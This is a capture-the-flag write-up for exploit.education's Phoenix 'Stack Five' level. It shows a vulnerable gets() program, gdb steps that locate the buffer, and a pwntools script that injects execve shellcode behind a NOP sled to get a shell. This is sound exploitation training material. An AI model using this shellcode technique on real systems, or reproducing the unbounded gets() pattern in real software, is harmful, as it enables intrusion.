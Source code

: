 ```yaml
---
title: "Stack Five"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

Here we don't have any function to jump to but we have a buffer large enough to fit a shellcode.

The idea is to put our shellcode in **buffer** and return execution to it.

So we have to enter: (shellcode + junk to fill the buffer + 8 bytes for RBP + RIP with the address of the buffer).

When dealing with shellcode it's a good idea to unset some environment variables that gdb adds them to jump to the right address.

```
$ gdb -q /opt/phoenix/amd64/stack-five
Reading symbols from /opt/phoenix/amd64/stack-five...(no debugging symbols found)...done.

gef➤  unset env LINES
gef➤  unset env COLUMNS
gef➤  disassemble start_level 
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	push   rbp
   0x000000000040058e <+1>:	mov    rbp,rsp
   0x0000000000400591 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave  
   0x00000000004005a3 <+22>:	ret    
```

Buffer size if 0x80 = 128 bytes.

Now we put a breakpoint at **gets** function to get the address of buffer.

```
gef➤  b *0x000000000040059c
Breakpoint 1 at 0x40059c

gef➤  r
Starting program: /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x000000000040059c in start_level ()

gef➤  print $rbp-0x80
$1 = (void *) 0x7fffffffe5d0
```

Buffer address at 0x7fffffffe5d0.

Now we have all the pieces to write the exploit.

You can find a lot of shellcode at **http://shell-storm.org/shellcode**.

It's always good to add some NOP instructions before the shellcode to add some flexibility with the exact address of the buffer (NOP is no operation instruction, it does nothing so it's useful to fill gaps).

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

buff = ""
buff += '\x90'*30			# NOP Sled
buff += shellcode			# shellcode
buff += 'A'* (128 - len(buff))		# junk
buff += 'BBBBBBBB'			# RBP value
buff += p64(0x7fffffffe5d0)		# RIP value (buffer address)

print(buff)
```

Wee need to chain our script with **cat** command to avoid closing the input stream.

```
$ (python solve.py; cat) | /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
phoenix-amd64-stack-five
```

